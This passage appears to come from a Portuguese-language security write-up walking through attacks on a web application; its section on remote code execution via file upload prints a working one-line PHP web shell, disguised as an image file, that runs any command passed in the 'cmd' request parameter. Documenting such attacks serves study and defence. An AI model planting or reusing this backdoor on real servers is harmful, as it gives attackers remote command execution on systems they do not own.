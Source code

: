 <p align="center">O atacante teve finalmente acesso a uma consulta que não lhe pertence.</p>

## 9. Execução de código remoto através de upload de ficheiros

<p align="center" width="100%">
    <img width="50%" src="upload_1.png">
</p>
<p align="center">Inicialmente, o atacante entra na sua página de perfil.</p>

<p align="center" width="100%">
    <img width="50%" src="upload_2.png">
</p>

O atacante envia um ficheiro chamado attack.php.png com o seguinte código. ([fonte](https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/simple-shell.php))

```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

Este código funciona como um backdoor onde comandos que são executados no servidor são passados como argumento no GET do ficheiro injetado.
O servidor aceita a imagem e a partir daqui a backdoor está instalada no servidor, no qual o atacante consegue correr comandos.
